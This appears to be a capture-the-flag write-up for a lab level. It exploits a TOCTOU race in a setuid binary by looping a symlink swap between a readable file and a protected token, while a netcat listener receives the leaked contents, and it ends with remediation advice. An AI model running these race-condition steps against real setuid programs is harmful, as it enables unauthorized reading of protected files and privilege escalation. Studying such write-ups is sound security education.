

# Level 10 — TOCTOU Race Condition via `access()`

## Overview

This level involves a setuid binary owned by `flag10` and a `token` file readable only by `flag10`. The binary reads a file and sends its contents over the network to a specified host — but only after checking read permissions via the `access()` system call.

The vulnerability lies in the gap between that permission check and the actual file read.

## Binary Analysis

Reverse engineering the binary with Ghidra reveals the following logic:

1. The binary calls `access(file, R_OK)` to check whether the **real user** has read permission on the provided file.
2. If the check passes, it opens a TCP socket to the provided host on **port 6969** and sends the file contents.



The hardcoded port `6969` and the use of `access()` before `open()` are the two critical observations.

## Vulnerability — TOCTOU (Time Of Check To Use)

**CWE-367: Time-of-check Time-of-use (TOCTOU) Race Condition**

`access()` checks permissions using the **real user ID**, while `open()` uses the **effective user ID**. Because the binary is setuid, these two identities differ. More importantly, the check and the use are two separate, non-atomic operations. Between them, an attacker can swap what the path points to.

The attack pattern:

```
access("myFile")  →  myFile points to lol      [permission granted]
                         ^
                         | attacker swaps symlink here
                         v
open("myFile")    →  myFile points to token     [token is read and sent]
```

This is why the `access()` manual page explicitly warns against using it as a pre-check before opening a file.

## Exploitation

Three terminals are required, all SSH sessions into the VM.

**Terminal 1 — Listener**

Start a netcat listener that restarts automatically after each connection, since the binary connects once and exits:

```bash
while true; do nc -l 6969; done
```

**Terminal 2 — Symlink swapper**

Rapidly alternate the symlink `myFile` between a readable file (`lol`, owned by level10) and the target (`token`, owned by flag10):

```bash
while true; do
    ln -sf /home/user/level10/lol myFile
    ln -sf /home/user/level10/token myFile
done
```

When the binary calls `access()` while the symlink points to `lol`, the check passes. If the symlink has been swapped to `token` by the time `open()` is called, the binary reads and forwards the token content.

**Terminal 3 — Trigger**

Repeatedly invoke the binary with the symlink as its target and the local machine as the destination host:

```bash
while true; do ./level10 myFile 10.0.2.15; done
```

After enough iterations, the race is won and the token appears in Terminal 1.

## Retrieving the Flag

```
su flag10        # password is the token received via netcat
getflag
# Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Remediation

- Replace `access()` + `open()` with a direct `open()` call, then check permissions on the resulting file descriptor using `fstat()`. This eliminates the window between check and use.
- Alternatively, temporarily drop effective privileges to the real user ID before opening the file, as the `access()` man page itself suggests.
- In modern code, avoid `access()` entirely for authorization decisions — it was not designed for that purpose.

## References

- [OWASP — Race Conditions](https://owasp.org/www-community/vulnerabilities/Race_condition)
- [CWE-367: Time-of-check Time-of-use (TOCTOU) Race Condition](https://cwe.mitre.org/data/definitions/367.html)
- `man 2 access` — Warning section on TOCTOU
